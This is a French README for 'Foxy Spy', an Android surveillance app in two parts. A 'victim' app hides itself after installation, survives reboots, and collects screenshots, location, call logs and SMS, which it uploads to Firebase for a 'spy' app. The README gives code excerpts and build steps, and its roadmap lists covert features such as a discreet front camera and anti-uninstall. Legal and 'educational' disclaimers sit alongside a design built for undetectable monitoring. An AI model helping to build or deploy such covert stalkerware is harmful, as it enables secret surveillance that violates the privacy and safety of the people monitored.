


# 🦊 FOXY SPY - L'Application de Surveillance Android qui fait (trop) bien son travail

### ET TRUC DE FOU : CA MARCHE SANS AVOIR BESOIN DE ROOTER 


**ATTENTION : CE PROJET EST UNIQUEMENT À BUT ÉDUCATIF**  
*Comme je le répète sur mon site [The-fox.tech](the-fox.tech), la sécurité informatique doit servir à protéger, pas à attaquer.  
Cette application est une démonstration technique des capacités de surveillance sur Android*- à n'utiliser QUE pour:  
✅ Contrôle parental (avec consentement)  
✅ Protection de proches vulnérables  
✅ Recherche en sécurité mobile  

## Table des Matières 
1. [Le Concept Derrière Foxy Spy](#-le-concept-derrière-foxy-spy)
2. [Architecture Technique (Spoiler: C'est du lourd)](#-architecture-technique-spoiler-cest-du-lourd)
3. [Fonctionnalités (Oui, ça fait peur)](#-fonctionnalités-oui-ça-fait-peur)
4. [Comment Builder ce Projet (Guide Pas à Pas)](#-comment-builder-ce-projet-guide-pas-à-pas)
5. [Configuration Firebase (La partie critique)](#-configuration-firebase-la-partie-critique)
6. [Éthique & Avertissements (Lisez ça TRÈS attentivement)](#-éthique--avertissements-lisez-ça-très-attentivement)
7. [Roadmap & Améliorations Futures](#-roadmap--améliorations-futures)
8. [FAQ (Les questions que tout le monde pose)](#-faq-les-questions-que-tout-le-monde-pose)
9. [Contributions (Oui, je accepte les PR)](#-contributions-oui-je-accepte-les-pr)
10. [Contact & Réseaux](#-contact--réseaux)


## Le Concept Derrière Foxy Spy

### Pourquoi j'ai créé cette appli ?
En tant que passionné de cybersécurité, je voulais comprendre jusqu'où on peut aller en termes de surveillance sur Android **sans root**. Spoiler : c'est effrayant. 

### Comment ça marche ?
- **Côté Victime** : Une appli Android qui devient invisible après installation (impossible pour lui de detecter sa presence)
- **Côté Surveillant** : Une interface pour tout voir (et je dis bien TOUT)
- **Communication** : Via Firebase (merci Google, c'est cadeau)

### ⚠️ ⚠️ ⚠️ Disclaimer Légal ⚠️ ⚠️ ⚠️
```java
if (vousUtilisezCeciPourEspionner) {
    System.out.println("Vous allez en prison ¯\_(ツ)_/¯");
} else if (vousUtilisezCeciPourApprendre) {
    System.out.println("Bienvenue dans le monde fascinant de la secu mobile !");
}
```


## Architecture Technique (Spoiler: C'est du lourd)

### Schéma Global


### Technologies Utilisées
| Techno | Usage | Pourquoi c'est cool |
|--------|-------|----------------------|
| **Firebase Cloud Messaging** | Communication en temps réel | Pas besoin de serveur perso |
| **Firebase Storage** | Stockage des screenshots/call logs | Gratuit jusqu'à un certain point |
| **MediaProjection API** | Capture d'écran | Android nous donne les outils :) |
| **Foreground Service** | Persistance | L'appli survit (presque) à tout |
| **JobScheduler** | Synchro périodique | Économie de batterie |

1. [**CLIENT - SERVER ARCHITECTURE**](https://www.w3schools.in/what-is-client-server-architecture/)
2. [**FIREBASE CLOUD MESSAGING**](https://firebase.google.com/docs/cloud-messaging/?gclid=CjwKCAjw7O_pBRA3EiwA_lmtfpvcIuuKSSJt_OpaM035Roo0lb-7EnmiS9E6pPwke6N0flvFuSYzWBoCudoQAvD_BwE)
3. [**FIREBASE CLOUD STORAGE**](https://firebase.google.com/docs/storage)
4. [**ANDROID NETWORKING**](developer.android.com/training/basics/network-ops/connectinga)
5. [**ANDROID MATERIAL DESIGN** ](https://material.io/develop/android/)
6. [**GOOGLE PLAY SERVICES**](https://support.google.com/googleplay/answer/9037938?hl=en)
7. [**GOOLE MAP SDK**](https://developers.google.com/maps/documentation/android-sdk/intro)
8. [**ANDROID MEDIA PROJECTION API**](https://developer.android.com/reference/android/media/projection/MediaProjection)

### Structure du Code
```bash
.
├── the_spy/          # L'appli du surveillant
│   ├── app/src/main/java/com/rana_aditya/parent/
│   │   ├── MainActivity.java       # Point d'entrée
│   │   ├── MyServices.java         # Service persistant
│   │   └── screenview.java         # Affichage des screenshots
├── the_victim/       # L'appli de la victime
│   ├── app/src/main/java/com/rana_aditya/child/
│   │   ├── MainActivity.java       # S'auto-détruit après installation
│   │   └── MyServices.java         # Collecte les données
```

---

## Fonctionnalités (Oui, ça fait peur)

### Ce que peut faire Foxy Spy
1. **Capture d'écran à distance**
   ```java
   // Extrait de MyServices.java
   mediaProjection.createVirtualDisplay("ScreenCapture",
           width, height, dpi,
           DisplayManager.VIRTUAL_DISPLAY_FLAG_AUTO_MIRROR,
           surface, null, null);
   ```
2. **Localisation en temps réel**  
   Utilisation des API Fused Location de Google
3. **Récupération des logs d'appels/SMS**  
   Via les ContentProviders Android
4. **Persistance**  
   L'appli survit au redémarrage grâce à un BroadcastReceiver

### Démonstration en Code
```java
// Envoi des données à Firebase
FirebaseStorage storage = FirebaseStorage.getInstance();
StorageReference storageRef = storage.getReference();
storageRef.child("screenshots/" + UUID.randomUUID().toString())
        .putBytes(imageData)
        .addOnSuccessListener(taskSnapshot -> {
            // C'est envoyé !
        });
```


---

##  Comment Builder ce Projet (Guide Pas à Pas)
> **En fait ...** : je  ne veux pas que n'importe qui puisse utiliser cette application, je ne partage pas les fichiers APK compilés. Les utilisateurs devront builder eux-mêmes le projet.


### Prérequis
- Android Studio Flamingo ou +
- Un compte Firebase (gratuit)
- Un device Android pour tester (ou un émulateur)

### Étapes
1. **Cloner le repo**
   ```bash
   git clone https://github.com/Tiger-Foxx/foxy-spy.git
   cd foxy-spy
   ```

2. **Configurer Firebase**
    - Créer un projet sur [Firebase Console]
    - Ajouter les deux apps (com.rana_aditya.parent et com.rana_aditya.child)
    - Télécharger les fichiers google-services.json

3. **Builder les APKs**
   ```bash
   ./gradlew assembleDebug
   # Les APKs seront dans :
   # the_spy/app/build/outputs/apk/debug/
   # the_victim/app/build/outputs/apk/debug/
   ```

---

## Configuration Firebase (La partie critique)
> **Aussi..** : Ne vous en faites pas pour les clés API que j'ai laissé dans le projet ce sont celles d'un compte de test dejà fermé dont la plupart des tokens ne marchent plus hahaha


### Étapes Clés
1. Activer **Firebase Cloud Messaging**
2. Configurer **Firebase Storage** (règles de sécurité)
3. Récupérer la **clé serveur** (pour les notifications)

### Exemple de Configuration
```xml
<!-- Dans AndroidManifest.xml -->
<service
    android:name=".MyFirebaseMessagingService"
    android:exported="false">
    <intent-filter>
        <action android:name="com.google.firebase.MESSAGING_EVENT" />
    </intent-filter>
</service>
```

---

## 🛑 🛑 🛑 Éthique & Avertissements 🛑 🛑 🛑

### Ce que dit la loi
En France (et dans la plupart des pays), utiliser ce type d'application sans consentement est :
- **Illégal** (Article 226-1 du Code Pénal)
- **Passible de 5 ans de prison** (Oui, on rigole pas)

### Bonnes Pratiques
- Utilisez uniquement sur VOS appareils
- Informez TOUJOURS les personnes surveillées
- Ne stockez pas de données sensibles sur Firebase

---

## Roadmap & Améliorations Futures

### Prochaines Features
- [ ] Chiffrement AES des données
- [ ] Détection anti-uninstall
- [ ] Mode "caméra frontale discrète"
- Accès à distance à la base de données complète de l'appareil ciblé, avec une invisibilité totale sur les appareils ciblés.
- Accès à distance au **PARTAGE D'ÉCRAN EN DIRECT DE L'APPAREIL CIBLÉ**
- Accès à distance à l'**HISTORIQUE WEB** (en cours de traitement)
- SURVEILLANCE À DISTANCE DE PLUSIEURS APPAREILS À LA FOIS AVEC UNE CONSOLE AMÉLIORÉE**
- **CONSOLE WEB EN TEMPS RÉEL POUR LA SURVEILLANCE ET LE CONTRÔLE**
- **EXPÉRIENCE DE CONCEPTION UX/UI AMÉLIORÉE**

### Challenges Techniques
```python
def challenges():
    bypass_battery_optimization = True  # Dur sur Android 10+
    hide_notification = False          # Merci Google
```

---

## ❓ FAQ

**Q: Peut-on détecter l'appli ?**  
R: Oui, avec des apps comme "App Inspector". Rien n'est parfait.

**Q: Fonctionne-t-elle sur iOS ?**  
R: 😂 Bonne blague. iOS est un bunker comparé à Android.

---

## 👥 Contributions

Les PR sont les bienvenues ! Mais :
- Pas de code malveillant
- Documentez bien vos changements
- Testez avant de push

Exemple :
```bash
git checkout -b feature/awesome-stuff
git commit -m "feat: add encrypted comms"
git push origin feature/awesome-stuff
```


## 📞 Contact & Réseaux

- **Email** : donfackarthur750@gmail.com
- **GitHub** : [Tiger-Foxx](https://github.com/Tiger-Foxx)
- **Site Perso** : [the-fox.tech]](the-fox.tech)
```java
// Dernier avertissement
if (vousÊtesUnMéchants) {
    throw new IllegalStateException("Allez voir ailleurs !");
}
```

```

Licence MIT

Copyright (c) 2025 Donfack Arthur

Par les présentes, toute personne obtenant une copie de ce logiciel et des fichiers de documentation associés (le « Logiciel ») est autorisée, à titre gratuit, à exploiter le Logiciel sans restriction, y compris, sans s'y limiter, les droits d'utilisation, de copie, de modification, de fusion, de publication, de distribution, de sous-licence et/ou de vente de copies du Logiciel, et à autoriser les personnes à qui le Logiciel est fourni à le faire, sous réserve des conditions suivantes :

L'avis de droit d'auteur ci-dessus et le présent avis d'autorisation doivent figurer sur toutes les copies ou parties substantielles du Logiciel.

LE LOGICIEL EST FOURNI « EN L'ÉTAT », SANS GARANTIE D'AUCUNE SORTE, EXPLICITE OU IMPLICITE, Y COMPRIS, MAIS SANS S'Y LIMITER, LES GARANTIES DE QUALITÉ MARCHANDE, D'ADÉQUATION À UN USAGE PARTICULIER ET DE NON-CONTREFAÇON. EN AUCUN CAS, LES AUTEURS OU LES TITULAIRES DES DROITS D'AUTEUR NE SERONT RESPONSABLES DE TOUTE RÉCLAMATION, DOMMAGE OU AUTRE RESPONSABILITÉ, QUE CE SOIT DANS LE CADRE D'UNE ACTION CONTRACTUELLE, DÉLICTUELLE OU AUTRE, DÉCOULANT DE OU EN RELATION AVEC LE LOGICIEL OU SON UTILISATION OU AUTRES OPÉRATIONS RELATIVES AU LOGICIEL.

```

© 2025 Fox - Un projet éducatif à n'utiliser qu'à bon escient.  
Licence MIT - Fait avec ❤️ et trop de café.
